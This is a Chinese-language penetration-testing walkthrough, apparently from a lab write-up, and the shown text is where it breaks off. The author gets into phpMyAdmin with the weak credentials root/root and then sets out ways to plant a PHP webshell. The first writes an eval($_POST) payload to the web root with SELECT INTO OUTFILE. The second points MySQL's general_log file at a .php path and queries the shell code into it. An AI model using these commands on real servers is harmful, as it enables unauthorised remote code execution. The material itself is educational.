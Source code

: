 ![](https://i.loli.net/2021/03/18/8B9Qj5ihOTYrKRL.png)
可以看到扫到个phpmyadmin，常规密码、弱口令走一波
root、root登陆成功

版本为5.5.53，可惜看到的大部分漏洞都不包含这个版本
![](https://i.loli.net/2021/03/18/cJT5hodMK3QYI8z.png)

### 漏洞利用

#### PHPMyadmin后台getshell技巧

##### 直接写入

那么先试试之前学过的select into outfile|dumpfile 直接写shell

利用条件

- secure_file_priv没有具体值（不是NULL）
  (NULL:限制mysql导入和导出；无具体值：不做限制；有值：只能在该值指定目录进行导入导出)
- 知道路径，具有写权限，可使用单引号
  （ps：`magic_quotes_gpc`开启时，会对'单引号进行转义，使其变成“\”反斜杠）

okk，那么就开始吧，利用`@@datadir`、`@@secure_file_priv`来看看这些值如何

![](https://i.loli.net/2021/03/18/S5QiwoLa4WX6VG3.png)
可惜的是secure_file_priv=NULL，那么此法就不可行了，正好学习其他方法

```sql
插一条能正常执行的payload--
select '<?php @eval($_POST[1]);?>' into outfile 'D:\\environment\\phpstudy_pro\\WWW\\1.php'
```



##### 利用日志文件getshell

前提：

- 账号拥有`可读可写`权限
- `Mysql`版本大于`5.0`，在5.0版本以上mysql会创建日志文件，通过改变全局变量控制日志文件的生成从而getshell

###### 开启全局日志getshell

- 步骤：

  - 查看general_log和general_log_file：`show variables like '%general%';`
  - 开启general log模式：`set global general_log = on;`
  - 设置日志目录为shell写入路径：`set global general_log_file = 'C:/phpStudy/WWW/hhh.php';`
  - 写入shell：`select '<?php eval($_POST[hhh]);?>'`




<u>实操一波</u>：

ps：同样的这样查也可以(如下general_log就没打开)

![](https://i.loli.net/2021/03/18/wTXqm26oaebGBhL.png)
那么就按步骤一步步来吧：
